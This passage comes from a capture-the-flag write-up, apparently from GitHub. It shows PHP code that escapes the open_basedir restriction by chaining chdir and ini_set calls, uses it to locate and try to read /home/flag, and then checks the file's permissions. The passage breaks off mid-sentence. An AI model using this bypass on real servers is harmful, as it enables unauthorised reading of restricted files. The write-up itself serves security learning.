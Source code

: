 After a while (probably 1 hour...) I finally found where the flag could be: `/home/flag`

```php
<?php
    echo "DOTAN3 - START";
    ini_set('allow_url_fopen', 1);
    mkdir('tmp');
    chdir('tmp');
    ini_set('open_basedir', '..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir', '/');
    echo is_file('/home/flag');
    echo "DOTAN3 - END";
?>
```

This outputs:

`bool(true)`

## Hitting the brick wall, pt. 2

Cool! Should be easy now, let's just file_get_contents that flag and DONE!<br>
Oh boy, how wrong was I...

```php
<?php
    echo "DOTAN3 - START";
    ini_set('allow_url_fopen', 1);
    mkdir('tmp');
    chdir('tmp');
    ini_set('open_basedir', '..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    chdir('..');
    ini_set('open_basedir', '/');
    echo file_get_contents('/home/flag');
    echo "DOTAN3 - END";
?>
```

Nothing. Pleeeease? It took me ages to think I should maybe check the rights on this file:

```php
echo substr(sprintf('%o', fileperms('/home/flag')), -4);
```

**0311** which is equivalent to **-wx--x--x**

Which is equivalent to:
